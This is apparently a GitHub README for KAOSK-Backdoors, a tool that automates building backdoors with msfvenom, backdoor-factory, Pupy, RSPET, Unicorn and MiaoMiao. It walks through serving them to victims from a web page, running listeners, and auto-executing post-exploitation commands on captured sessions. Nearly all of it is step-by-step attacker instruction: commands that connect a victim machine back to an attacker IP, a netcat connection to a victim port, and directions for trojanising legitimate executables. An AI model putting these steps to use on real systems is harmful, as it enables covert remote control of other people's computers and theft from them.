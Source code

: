 # KAOSK-Backdoors
==========
It's a tool that automate: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
+ git clone https://github.com/carlospolop/KAOSK-backdoors.git
+ python ./install.py
+ python ./create_backdoors.py 192.168.0.100
+ python ./handler.py 192.168.0.100

In the victim machine:

Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker machine.
Download the backdoor that you want to use.

Run the backdoor.


You will have a session of the victim's machine in Kali.

If you had chosen a backdoor created using msfvenom, backdoor-factory or unicorn, you will have a metasploit session of the victim. The metasploit's sessions can be configured to automatically run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands automatically run
You just have to go to the config folder and there you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell commands run when you capture a session in a machine that uses the OS selected.

## Requirements
+ Python
+ Measploit
+ Backdoor-factory
+ Apache2
KAOSK has been tested in Kali2.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduce the backdoor inside executables.

If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside ./BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor open a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run MiaoMiamo_folder/src_backdoor/server_dist/newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.

https://github.com/n1nj4sec/pupy.git
